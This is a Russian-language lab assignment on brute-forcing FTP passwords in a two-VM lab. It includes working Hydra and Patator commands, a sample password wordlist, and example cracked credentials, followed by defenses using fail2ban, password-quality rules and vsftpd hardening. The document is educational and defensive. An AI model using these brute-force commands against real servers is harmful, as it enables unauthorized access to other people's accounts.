 ### **Лабораторная работа №12. Исследование способов перебора паролей для FTP-серверов (в учебных целях)**  

#### **Цель работы:**  
Изучить методы перебора паролей для FTP-серверов с использованием инструментов **Hydra** и **Patator** (в учебных целях). Освоить защитные меры против подобных атак.  

---

## **1. Подготовка виртуального стенда**  

### **1.1. Создание виртуальных машин**  
Используем **2 виртуальные машины**:  
- **VM1 (Атакующий)**: Kali Linux (или другая система с установленными Hydra и Patator).  
- **VM2 (Цель)**: Сервер с FTP (например, vsftpd на Debian/Ubuntu).  

### **1.2. Настройка сети**  
- Обе машины должны находиться в одной сети (например, **NAT** или **Host-only**).  
- **VM1 (Kali Linux)**: `192.168.56.10`  
- **VM2 (FTP-сервер)**: `192.168.56.20`  

### **1.3. Установка FTP-сервера на VM2**  
```bash
sudo apt update
sudo apt install vsftpd -y
sudo systemctl start vsftpd
sudo systemctl enable vsftpd
```  

### **1.4. Создание тестовых пользователей**  
```bash
sudo useradd -m testuser1
sudo passwd testuser1  # Установите пароль "12345"
sudo useradd -m testuser2
sudo passwd testuser2  # Установите пароль "qwerty"
```  

---

## **2. Перебор паролей с помощью Hydra**  

### **2.1. Установка Hydra** (если нет в Kali Linux)  
```bash
sudo apt install hydra -y
```  

### **2.2. Создание словаря паролей**  
Создаем файл `passwords.txt`:  
```
12345
qwerty
password
admin
123456
letmein
```  

### **2.3. Запуск атаки перебора**  
```bash
hydra -l testuser1 -P passwords.txt ftp://192.168.56.20 -V
```  
**Где:**  
- `-l` – имя пользователя.  
- `-P` – путь к файлу с паролями.  
- `-V` – подробный вывод.  

**Пример успешного подбора:**  
```
[STATUS] 192.168.56.20 ftp login: testuser1 password: 12345
```  

---

## **3. Перебор паролей с помощью Patator**  

### **3.1. Установка Patator**  
```bash
sudo apt install patator -y
```  

### **3.2. Запуск атаки**  
```bash
patator ftp_login host=192.168.56.20 user=testuser2 password=FILE0 0=passwords.txt -x ignore:mesg='Login incorrect.'
```  
**Где:**  
- `host` – IP FTP-сервера.  
- `user` – имя пользователя.  
- `password=FILE0` – чтение паролей из файла.  
- `-x ignore:mesg='Login incorrect.'` – игнорировать неудачные попытки.  

**Пример успешного подбора:**  
```
Found valid credentials: testuser2:qwerty
```  

---

## **4. Защита от перебора паролей**  

### **4.1. Ограничение попыток входа (fail2ban)**  
```bash
sudo apt install fail2ban -y
sudo nano /etc/fail2ban/jail.local
```  
**Добавляем:**  
```ini
[vsftpd]
enabled = true
maxretry = 3
bantime = 600
```  

### **4.2. Использование сложных паролей**  
```bash
sudo apt install libpam-pwquality
sudo nano /etc/security/pwquality.conf
```  
**Настройки:**  
```ini
minlen = 12
dcredit = -1
ucredit = -1
ocredit = -1
lcredit = -1
```  

### **4.3. Отключение анонимного FTP**  
```bash
sudo nano /etc/vsftpd.conf
```  
**Проверяем:**  
```ini
anonymous_enable=NO
local_enable=YES
chroot_local_user=YES
```  

**Важно:** Данная работа предназначена **только для учебных целей**. Несанкционированный перебор паролей незаконен.